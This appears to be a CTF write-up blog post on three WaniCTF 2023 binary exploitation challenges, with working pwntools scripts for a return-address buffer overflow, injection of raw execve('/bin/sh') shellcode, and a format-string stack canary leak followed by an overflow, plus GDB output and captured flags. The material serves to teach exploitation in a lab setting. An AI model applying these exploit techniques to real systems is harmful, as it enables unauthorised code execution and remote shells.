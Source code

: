 ```yaml
---
layout: post
title:  "Wani CTF "
date:   2023-05-7 14:18 +0200
categories: writeups wanictf 
---
```


## ret2win

This is a simple buffer overflow, the aim of this challenge is to jump to the win function.
The payload will be structured as follows:
> Payload = PADDING + win_address()

### Exploit
{% highlight python %}
from pwn import *
#r = process("./chall")

r = remote("ret2win-pwn.wanictf.org", 9003)
offset = 40
win_function = 0x401369
payload = b"A"*offset+p64(win_function)
r.sendline(payload)
r.interactive()
# FLAG{f1r57_5739_45_4_9wn3r}
{% endhighlight %}

## shell-basic
Simple shellcode injection

{% highlight bash %}
[*] '/home/feedz/Desktop/waniCTF/waniCTF_2023/pwn-shell-basic/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
{% endhighlight %}

we can see that NX is disabled and that means we can go with shellcode injection.

### Exploit
{% highlight python %}
from pwn import *

r = remote("shell-basic-pwn.wanictf.org", 9004)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
r.sendline(shellcode)
r.interactive()
# FLAG{NXbit_Blocks_shellcode_next_step_is_ROP}
{% endhighlight %}
## Canaleak

the aim of this challenge is to leak the stack canary through format string vulnerability and then jump to the win function.

{% highlight python %}
while (strcmp(nope, "YES")) {
    printf("You can't overwrite return address if canary is enabled.\nDo you "
           "agree with me? : ");
    scanf("%s", nope);
    printf(nope);
  }
{% endhighlight %}

the focus is to leak stuff from the stack through printf, as I said first this will help us to leak the stack canary.
we can try to fuzz the stack and try to identify the stack canary.
the stack canary end in 00.

{% highlight bash %}
0: Do you agree with me? : %0$p
1: Do you agree with me? : 0xa
2: Do you agree with me? : (nil)
3: Do you agree with me? : 0x7f32a9619aa0
4: Do you agree with me? : (nil)
5: Do you agree with me? : 0x7fc3bb378040
6: Do you agree with me? : 0x70243625
7: Do you agree with me? : (nil)
8: Do you agree with me? : (nil)
9: Do you agree with me? : 0xef1553a888ae3b00
10: Do you agree with me? : 0x1
11: Do you agree with me? : 0x7fe97bc29d90
12: Do you agree with me? : (nil)
13: Do you agree with me? : 0x401254
14: Do you agree with me? : 0x100000000
{% endhighlight %}

we can see that in the first 15 occurrences only 1 ends with 00.
Number 9 is our candidate

Now let's check better with GDB.
{% highlight gdb %}
You can't overwrite return address if canary is enabled.
Do you agree with me? : %9$p
0xb2431c61d958e500

gef➤  canary
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L4935 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
[+] The canary of process 16904 is at 0x7fffffffe2b9, value is 0xb2431c61d958e500
{% endhighlight %}
yes, %9$p will be our stack canary.
let's craft our payload:
> Payload = buffer_padding + canary + padding_rbp + win_address

Note that win fuction starts at 0x40123d but this function will push rbp on the stack, and this will dis-align the stack.
So we can pass 0x401245 directly, which is the syscall to /bin/sh.

{% highlight gdb %}
gef➤  disas win
Dump of assembler code for function win:
   0x000000000040123d <+0>:	endbr64 
   0x0000000000401241 <+4>:	push   rbp
   0x0000000000401242 <+5>:	mov    rbp,rsp
   0x0000000000401245 <+8>:	lea    rdi,[rip+0xdbc]        # 0x402008
   0x000000000040124c <+15>:	call   0x4010d0 <system@plt> 
   0x0000000000401251 <+20>:	nop
   0x0000000000401252 <+21>:	pop    rbp
   0x0000000000401253 <+22>:	ret    
End of assembler dump.
{% endhighlight %}

the stack alignment will look something like this:
{% highlight gdb %}
0x007ffc9282ce08│+0x0008: "AAAAAAAAAAAAAAAA"
0x007ffc9282ce10│+0x0010: "AAAAAAAA"
0x007ffc9282ce18│+0x0018: 0x338641c2c0127900#r = process("./chall")

0x007ffc9282ce20│+0x0020: 0x4242424242424242	 ← $rbp
0x007ffc9282ce28│+0x0028: 0x00000000401245  →  <win+8> lea rdi, [rip+0xdbc]        # 0x402008
{% endhighlight %}
just run the exploit and get the flag!

### Exploit
{% highlight python %}
from pwn import *

r = process("./chall")
#r = remote("canaleak-pwn.wanictf.org",9006)
r.recvuntil(b"You can't overwrite return address if canary is enabled.\n")
r.recv()
r.sendline("%9$p")  # canary leak
canary = int(r.recvline(), 16)
log.info(f'Canary: {hex(canary)}')

payload = b"A"*24  # padding for buffer
payload += p64(canary)  # canary
payload += b"B"*8  # padding to rbp
payload += p64(0x401245)  # addr load rdi
gdb.attach(r,'b *0x4012e8') # dove viene fatto il controllo per il canary

r.sendline(payload)
r.sendlineafter(b" : ", b"YES")
r.interactive()
# FLAG{N0PE!}
{% endhighlight %}

